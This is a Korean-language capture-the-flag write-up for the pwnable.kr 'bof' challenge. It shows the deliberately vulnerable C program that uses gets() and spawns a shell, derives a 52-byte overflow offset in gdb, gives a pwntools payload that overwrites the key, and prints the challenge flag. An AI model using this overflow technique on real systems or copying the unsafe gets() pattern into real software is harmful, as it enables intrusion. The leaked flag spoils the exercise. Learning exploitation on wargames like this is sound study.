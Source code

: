 ```yaml
---
layout: post
title: pwnable.kr wargame bof write-up
---
```


<br>
문제는 [pwnable.kr](http://pwnable.kr/play.php)에서 받으실 수 있습니다.

----

<br>
{% highlight c linenos %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme);	// smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}
int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}
{% endhighlight %}

key가 0xcafebabe이면 쉘을 실행시켜준다.<br>
입력은 overflowme 변수에 받기 때문에 key와 overflowme의 거리를 알면<br>
bof를 할 수 있을 것이다.<br>
gdb로 실행시켜보자.<br>

![img1](/assets/img.png)

두번째 함수 콜은 gets 함수를 호출하는 부분이다.
<br><br>여기에 overflowme가 인자로 들어가니까 
<br>**overflowme는 ebp - 0x2c** 에 있음을 알 수 있다.
<br><br>그 아래에 ebp+0x8 위치와 0xcafebabe를 비교하니까 
<br>**key는 ebp + 0x8** 에 위치하는 것을 알 수 있다.
<br><br>bof를 위해 채워줘야 하는 문자의 수는 **0x2c + 0x8 = 0x34(52)** 이다.
<br>이제 페이로드를 짜고 실행시켜보자.

{% highlight python linenos %}
from pwn import *

p = remote('pwnable.kr','9000')
#p = process('./bof')

payload = 'A' * 52
payload += '\xbe\xba\xfe\xca'

p.sendline(payload)
p.interactive()
{% endhighlight %}

![img2](/assets/img2.png)
성공적으로 쉘을 획득했다.
<br>
FLAG : daddy, I just pwned a buFFer :)